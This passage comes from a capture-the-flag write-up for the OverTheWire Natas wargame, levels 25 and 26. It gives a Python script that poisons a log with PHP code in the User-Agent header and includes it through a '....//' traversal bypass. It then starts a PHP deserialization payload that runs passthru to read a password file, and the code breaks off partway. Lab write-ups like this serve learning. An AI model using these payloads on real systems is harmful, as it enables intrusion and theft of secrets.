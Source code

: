 2. **Log Poisoning:** This is a vulnerability that allows an attacker to inject malicious content into a system's log files. In this challenge, the application logs the user agent string of each request. By setting the user agent string to PHP code, we can inject this code into the log file. When the log file is included in the response, the server executes this code.

The solution to this challenge involves combining these two vulnerabilities.<br> 
- First, we inject PHP code into the user agent string that reads the password for the next level.
- Then, we use directory traversal to include the log file in the response. When the server includes the log file, it executes the injected PHP code, revealing the password for the next level.

You can either use python or Barpsuite for this. The below is the code you can use for python-
```python
import requests

# URL for the site
url = 'http://natas25.natas.labs.overthewire.org/'

auth = ('natas25', '<password>')  # replace with the actual password

# Create a session
session = requests.Session()
session.auth = auth

# Set the user agent to include PHP code
session.headers['User-Agent'] = '<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'
session.get(url)

if 'PHPSESSID' not in session.cookies:
    # Manually set the PHPSESSID cookie
    session.cookies['PHPSESSID'] = '<cookie-value>'
# Make a GET request to the site with the lang parameter set to include the log file
response = session.get(url, params={'lang': '....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_' + session.cookies['PHPSESSID'] + '.log'})

# Print the response
print(response.text)
```
We didnt use `/etc/natas_webpass/natas26` since the source code filters out the results and we are even given with what we can inject to get our password which is the above `var/...`. Also usually to get `/etc/passwd`, we do 5 `../` in sequence(just a general trend, it may also be different), but since we cant use `../` directly, we used `....//` which converts itself too `../` according to source code and we are done.

## natas26
This problem is based on deserialization. If you open the cookies, you see `drawing` cookie which is base64 encoded, and when you decode it, you see php arrays and serials for each image you creat with data as x1, x2, etc. When you open the source code, th `Logger` class creates "magic functions" `__construct` and `__destruct` which you can do serialization and unserialization of (read about php class log serializations.)

So our goal will be to make a cookie which will be unserialized by the server and regarded as Logger. This will be executed to fetch our password from `/etc/natas_webpass/natas27`. So let's build the cookie-
```php
<?php
class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;
    function __construct($file)
    {
        // initialise variables
        $this->initMsg="Hello\n";
        $this->exitMsg="Goodbye <? passthru('cat /etc/natas_webpass/natas27'); ?>\n\n";
```